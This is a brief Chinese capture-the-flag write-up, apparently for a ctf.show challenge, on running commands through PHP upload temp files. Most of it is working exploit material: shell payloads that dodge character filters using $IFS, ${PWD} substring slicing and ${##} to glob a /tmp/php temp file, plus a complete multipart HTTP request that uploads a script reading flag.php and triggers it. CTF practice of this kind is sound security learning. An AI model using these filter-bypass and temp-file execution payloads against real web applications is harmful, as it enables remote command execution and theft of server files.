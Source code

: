原来php临时文件命令执行的方法payload的参数被过滤了

```
# SHLVL被过滤${#SHLVL} --> 1
.$IFS${PWD:${Z}:${#SHLVL}}???${PWD:${Z}:${#SHLVL}}????????C
# 这里可以用${##} --> 1 代替
.$IFS${PWD:${Z}:${##}}???${PWD:${Z}:${##}}????????C
```

```
POST / HTTP/1.1
Host: f3d00353-2e3e-4a6d-b728-3fc6d548da7d.challenge.ctf.show
Content-Length: 452
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryThAVkFWYrukHq9ZA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: keep-alive

------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="file"; filename="sh_script.sh"
Content-Type: text/x-sh

#!/bin/sh

cat flag.php
------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="code"

.$IFS${PWD:${#}:${##}}???${PWD:${#}:${##}}????????C
------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="submit"

提交2
------WebKitFormBoundaryThAVkFWYrukHq9ZA--

```


